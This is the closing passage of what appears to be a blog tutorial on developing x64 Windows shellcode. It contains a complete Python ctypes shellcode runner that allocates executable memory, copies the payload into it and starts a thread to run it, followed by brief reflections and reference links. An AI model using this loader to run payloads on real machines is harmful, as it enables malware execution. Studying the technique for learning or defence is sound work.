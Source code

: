 ```
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
    ctypes.windll.kernel32.RtlCopyMemory.argtypes = ( ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t ) 
    ctypes.windll.kernel32.CreateThread.argtypes = ( ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int) ) 
 
    space = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buff = ( ctypes.c_char * len(shellcode) ).from_buffer_copy( shellcode )
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(space),buff,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_void_p(space),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1);
 
if __name__ == "__main__":
    main()
```
<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-02_07-00.png" alt="">

Final thoughts
---

This post has been immensely helpful for consolidating my knowledge about shellcode creation on x64 architectures. Exploring the Microsoft documentation and guides on other blogs has proven to be very beneficial.

If there is anything I have missed or could be improved, please do not hesitate to contact me and let me know.

### References

* [https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention){:target="_blank"}
* [https://www.bordergate.co.uk/windows-x64-shellcode-development/](https://www.bordergate.co.uk/windows-x64-shellcode-development/){:target="_blank"}
* [https://defuse.ca/online-x86-assembler.htm#disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly){:target="_blank"}
* [https://ferreirasc.github.io/PE-Export-Address-Table/](https://ferreirasc.github.io/PE-Export-Address-Table/){:target="_blank"}
* [https://wajid-nawazish.medium.com/developing-custom-shellcode-in-x64-57172a885d77](https://wajid-nawazish.medium.com/developing-custom-shellcode-in-x64-57172a885d77){:target="_blank"}